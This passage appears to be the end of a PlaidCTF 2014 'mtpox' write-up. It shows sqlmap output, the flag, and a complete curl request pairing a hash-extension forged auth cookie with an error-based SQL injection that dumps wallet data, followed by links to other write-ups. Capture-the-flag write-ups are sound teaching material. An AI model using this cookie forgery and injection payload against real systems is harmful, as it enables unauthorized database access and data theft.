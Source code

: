 ```bash
[13:33:37] [INFO] fetching columns for table 'CHARACTER_SETS' on database 'information_schema'
[13:33:37] [INFO] the SQL query used returns 4 entries
[13:33:37] [INFO] retrieved: CHARACTER_SET_NAME
…
```

The flag is `flag{phpPhPphpPPPphpcoin}`.

For the record, the payload `sqlmap` used to get the flag was:

```bash
$ curl --cookie 'auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' 'http://54.211.6.40/admin.php?query=abc%20AND%20%28SELECT%203497%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C103%2C99%2C121%2C58%29%2C%28SELECT%20MID%28%28IFNULL%28CAST%28id%20AS%20CHAR%29%2CCHAR%2832%29%29%29%2C1%2C50%29%20FROM%20mtpox.plaidcoin_wallets%20LIMIT%200%2C1%29%2CCHAR%2858%2C118%2C117%2C112%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29'
Query failed: Duplicate entry ':gcy:flag{phpPhPphpPPPphpcoin}:vup:1' for key 'group_key'
```

## Other write-ups and resources

* <http://conceptofproof.wordpress.com/2014/04/13/plaidctf-2014-web-150-mtgox-writeup/>
* <https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack>
* <http://achatz.me/plaid-ctf-mt-pox/>
* [Source code for this challenge, released after the CTF](https://github.com/pwning/plaidctf2014/tree/master/web/mtpox)
* <https://github.com/hackerclub/writeups/blob/master/plaidctf-2014/mtpox/WRITEUP-arthurdent.md>
* [Indonese](http://blog.rentjong.net/2014/04/plaidctf2014-write-up-mtpox-web150.html)
* [Russian](http://blog.nostr.ru/2014/04/mtpox-web-150-pts-plague-has-traveled.html)
* <https://systemoverlord.com/blog/2014/04/14/plaidctf-mtpox/>
